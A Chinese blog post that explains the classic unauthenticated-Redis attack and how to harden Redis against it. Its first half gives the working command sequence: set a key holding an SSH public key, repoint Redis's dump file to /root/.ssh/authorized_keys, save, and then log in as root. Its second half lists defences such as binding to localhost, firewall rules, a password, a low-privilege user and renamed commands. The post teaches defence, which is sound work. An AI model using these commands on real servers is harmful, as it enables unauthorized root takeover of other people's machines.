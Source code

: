 ```yaml
---
title: "Redis的一个简单漏洞攻击与防范"
date: 2019-11-16T12:40:16+08:00
draft: false
tags: ["Redis", "安全"]
categories: ["中间件"]
---
```


# Redis的一个简单漏洞攻击与防范

> Redis是目前使用最为广泛的缓存中间件，使用起来虽然方便、简洁但如果不加一些安全限制的使用，便会导致一些问题。之前我的一位朋友，因为在自己的云服务器上自行部署了Redis用来学习，不久后他的服务器便被人搞去挖矿了...本文讲述Redis简单的漏洞攻击流程以及对应的防范方法。


## 简单的攻击流程
- 如果本地没有配置过ssh，先生成公钥和私钥

  ```shell
    ssh-keygen -t rsa
  ```

- 将公钥写入一个txt文件

  ```shell
  (echo -e "\n\n"; cat ~/.ssh/id_rsa.pub; echo -e "\n\n") > test.txt
  ```

- 连接Redis并把公钥文件写入。

  ```shell
  cat test.txt | redis-cli -h {server.ip} -x set attack_key
  ```

- 登入未受保护的Redis，进行如下命令操作。通过config命令修改了持久化目录及持久化文件名，使持久化的DB文件刚好为root用户SSK key存放的文件，然后save将公钥追加到authorizew_keys文件的末尾，也就上传了公钥。之后便可以使用SSH以root用户登录目标服务器。

  ```shell
  redis-cli -h {server.ip}
  # 下面都是Redis Client的交互命令
  config set dir /root/.ssh/
  config set dbfilename "authorized_keys"
  save
  ```
- 拿到root用户，之后自然就是为所欲为了～

## 线上Redis服务安全加固

> Redis在默认情况下会存在未授权访问漏洞，如果Redis的运行用户为root，黑客可以向root账号导入SSH公钥，从而直接通过SSH入侵服务器。

### 1.限制访问源只能为本地或指定IP

在redis.conf文件中写入一行记录：`bind 127.0.0.1 `，然后重启Redis生效。也存在例外情况，如果Redis以root用户运行，攻击者借助已有的web shell，可以利用该Redis来反弹shell实现提权。？

### 2.设置防火墙策略

通过iptables，仅允许指定的ip来访问Redis服务

```
iptables -A INPUT -s x.x.x.x -p tcp --dport 6379 -j ACCEPT
```

### 3.设置访问密码

在redis.conf中写入`requirepass {your_password}`，设置一个安全度高的密码。

### 4.使用低权限用户运行Redis

使用低权限用户运行Redis，并禁用该账号的远程登录，使用新用户并重启Redis生效。

```
useradd -M -s /sbin/nologin {username}
```

### 5.屏蔽重要指令

可以将一些重要命令设置为空，即禁用，也可以重命名成更复杂的名字。修改完成后需要重启Redis生效。

```
rename-command config ""
rename-command flushall ""
rename-command flushdb ""
rename-command shutdown shutdown_wxj
```

在Redis 3.0.2版本以下存在EVAL沙箱逃逸漏洞，攻击者可以通过该漏洞执行任意Lua代码，可以通过rename config命令和在redis.conf中限制访问源来规避风险。